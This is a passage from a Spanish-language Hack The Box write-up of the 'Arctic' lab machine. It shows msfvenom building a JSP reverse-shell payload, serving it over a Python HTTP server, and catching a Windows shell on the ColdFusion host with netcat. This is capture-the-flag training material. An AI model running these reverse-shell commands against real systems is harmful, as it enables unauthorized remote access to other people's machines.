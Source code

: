 ![](/assets/images/htb-arctic/arctic_shell.png)

Por lo tanto, necesitamos generar nuestro archivo que nos entable la reverse shell, así como compartir un servidor HTTP con python.

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.13 lport=443 -f raw -o k4mishell.jsp
Payload size: 1496 bytes
Saved as: k4mishell.jsp
```

Cuando se sube el archivo, ejecutamos la tarea para descargar el archivo desde nuestra máquina a la máquina víctima.

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [07/Sep/2021 22:36:44] "GET /k4mishell.jsp HTTP/1.1" 200 -
```

Nos dirigimos a la ruta `http://10.10.10.11:8500/CFIDE/` y observamos nuestro archivo. Ahora nos ponemos en escucha por el puerto 443 y ejecutamos nuestra reverse shell.

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.11] 49649
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```
